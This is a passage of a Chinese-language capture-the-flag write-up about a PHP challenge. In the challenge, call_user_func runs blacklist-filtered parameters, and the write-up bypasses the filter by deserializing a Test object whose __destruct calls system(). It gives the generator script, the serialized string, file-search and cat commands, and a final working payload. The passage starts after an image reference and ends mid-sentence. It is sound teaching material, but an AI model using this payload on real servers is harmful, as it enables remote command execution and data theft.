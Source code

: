 其他没什么好说的了。

整段代码的运行逻辑为：利用 func 和 p 传入的参数传入 gettime()，在这期间对传入的 func 数据进行了非空判断，大小写的转换，黑名单的校验，而 gettime() 的运行逻辑为：利用 call_user_func 执行传入的函数，并将执行结果返回在网页上显示。

还可以看到 Test 类是一个小小的序列化提示，它并没有被调用。但是这提示了我们可以采用序列化和反序列化来绕过之前的过滤。此时我们可以将 ``$func=unserialize()&$p=我们要执行的语句的序列化``。开始构造：

```php
<?php
function gettime($func, $p) {
    $result = call_user_func($func, $p);
    $a= gettype($result);
    if ($a == "string") {
        return $result;
    } else {return "";}
}

class Test {
    var $p = "ls";
    var $func = "system";
    
    function __destruct() {
        if ($this->func != "") {
            echo gettime($this->func, $this->p);
        }
    }
}

$a = new Test();
echo serialize($a);
?>
```

得到：

```
O:4:"Test":2:{s:1:"p";s:2:"ls";s:4:"func";s:6:"system";}
```

后端接受到这两个参数后，调用 call_user_func 将上面的字符串进行反序列化，还原成上面的代码。而上面的代码核心在于创建一个 Test() 对象，因为在 __destruct() 函数是构造方法，在对象销毁时会执行，根据 Test 类中设置的函数名和参数值再执行一次，就可以获得我们所需要的信息。



然后修改 $p 的值即可逐步得到flag：

```
find / -name flag*
cat $(find / -name flag)
```

最终 payload：

```
func=unserialize&p=O:4:"Test":2:{s:1:"p";s:24:"cat $(find / -name flag)";s:4:"func";s:6:"system";}
```

或使用 ``readfile``直接读取得到路径的flag：
